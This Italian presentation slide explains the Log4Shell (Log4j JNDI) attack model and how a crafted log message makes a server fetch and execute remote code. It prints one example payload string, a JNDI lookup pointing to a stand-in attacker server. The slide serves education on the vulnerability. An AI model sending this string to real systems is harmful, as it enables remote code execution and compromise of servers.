

# Modello d’attacco
T
7
🠺

Log4J dovrebbe mostrare e gestire solo stringhe di testo, ma quando si trova davanti ad un messaggio formattato in un certo modo lo interpreta come un indirizzo internet lo raggiunge sfruttando la JNDI (Java Naming and Directory Interface), scarica il payload e lo esegue con i privilegi del programma principale.
Una stringa del tipo :

${jndi:ldap://attackerserver.com/payload1}

Se passata a Log4j come messaggio avvia la connessione tra il server vulnerabile e il server dell’attaccante che restituirà una classe java con codice malevolo

🠺